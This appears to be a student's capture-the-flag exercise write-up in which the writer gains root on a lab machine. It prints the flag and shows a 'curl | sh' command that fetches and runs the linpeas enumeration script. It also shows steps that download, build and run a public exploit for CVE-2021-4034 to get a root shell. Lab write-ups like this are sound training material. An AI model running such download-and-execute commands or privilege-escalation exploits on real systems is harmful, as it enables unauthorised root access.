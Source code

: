 [Summary](./README.md)

## Exercises
1. Find the root flag hidden on your student machine.

> Flag : BC{y0ur_f1r57_r007_fl46#_w3ll_d0n3}

I've used Linpeas like this first to see which vulnerabilities I could try to exploit :

    curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

The vulnerability I chose is **CVE-2021-4034** and I downloaded an existing script to exploit it :

    wget https://codeload.github.com/berdav/CVE-2021-4034/zip/main
    sudo apt-get install unzip
    unzip main
    cd CVE-2021-4034-main/
And then I did as instructed in the Readme file :

    make
    ./cve-2021-4034
Then you'll be in the shell as root and be able to navigate to the root folder where you'll find the flag.txt file:

    cd /root/
    cat flag.txt
